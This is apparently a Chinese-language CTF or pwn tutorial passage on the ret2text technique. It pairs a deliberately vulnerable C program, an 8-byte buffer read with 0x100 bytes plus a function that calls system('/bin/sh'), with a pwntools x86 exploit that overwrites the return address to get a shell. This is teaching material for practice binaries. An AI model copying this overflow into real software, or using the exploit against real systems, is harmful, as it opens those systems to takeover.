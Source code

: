 ### 一、有system(sh)不用传参的情况：

直接填充垃圾数据覆盖，然后填上system函数地址即可

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
char sh[]="/bin/sh";

int func(char *cmd){
	system(sh);
	return 0;
}

int dofunc(){
    char b[8] = {};
	puts("input:");
	read(0,b,0x100);
	//printf(b);
    return 0;
}

int main(){
    dofunc();
    return 0;
}
```

#### exp：

**x86**

```py
from pwn import *
context(log_level='debug',arch='i386', os='linux')
pwnfile= './question_4_1_x86'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)



padding = 0x14  
#padding = padding2ebp + context.word_size//8   #通过调试得到

gdb.attach(io)
pause()

return_addr = 0x08049182
payload = b'a'*padding + p32(return_addr)
#payload = flat(['a'*padding, return_addr])
delimiter = 'input:'
io.sendlineafter(delimiter, payload)
io.interactive()
```
